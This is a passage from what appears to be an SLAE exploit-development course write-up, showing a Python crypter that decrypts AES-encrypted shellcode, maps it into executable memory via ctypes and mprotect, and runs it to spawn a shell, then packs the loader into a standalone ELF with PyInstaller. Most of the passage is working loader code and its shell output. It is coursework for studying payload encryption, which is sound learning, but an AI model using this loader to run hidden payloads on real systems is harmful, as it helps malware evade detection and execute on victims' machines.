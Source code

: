```python
from base64 import b64encode
import simple_aes_cipher
from ctypes import CDLL, c_char_p, c_void_p, memmove, cast, CFUNCTYPE

pass_phrase = "security-tube-slae1483"
secret_key = simple_aes_cipher.generate_secret_key(pass_phrase)
cipher = simple_aes_cipher.AESCipher(secret_key)

encrypted_shellcode = "\x40\x99\x24\x40\x0b\x22\xa0\x33\xdb\x89\x31\xbd\xd9\x1b\x9f\xfb\x90\xe4\xd0\xb2\x9d\xf8\xc1\x7b\x17\x99\x34\xe4\x03\x4a\x5b\x2d\x71\x9e\x6a\x60\x68\x03\xcb\xd7\x07\x80\x7d\x38\xc9\x57\xce\x62"
decrypt_text = cipher.decrypt(b64encode(encrypted_shellcode))

libc = CDLL('libc.so.6')

sc = c_char_p(decrypt_text)
size = len(decrypt_text)
addr = c_void_p(libc.valloc(size))
memmove(addr, sc, size)
libc.mprotect(addr, size, 0x7)
run = cast(addr, CFUNCTYPE(c_void_p))
run()
```

```
$ python decrypt-and-run.py 
$ id
uid=1000(cervoise) gid=1000(cervoise) groups=1000(cervoise),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
$ exit
```

Lets compile the all things into an ELF using PyInstaller:

```
cervoise@slae:~$ python pyinstaller.py --onefile ../decrypt-and-run.py 
[...]
cervoise@slae:~$ ls -hl ./decrypt-and-run/dist/decrypt-and-run-import 
-rwxr-xr-x 1 cervoise cervoise 3,8M dec.  27 21:56 ./decrypt-and-run/dist/decrypt-and-run-import
cervoise@slae:~$ ./decrypt-and-run/dist/decrypt-and-run-import 
$ id
uid=1000(cervoise) gid=1000(cervoise) groups=1000(cervoise),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
$ exit
```

This a pretty big program. Even if this could be reduced by removing unused code from libraries or by optimizing import, as Python came with an interpreter, the final ELF will still stay very big (as a shellcode).

# Using AES in C
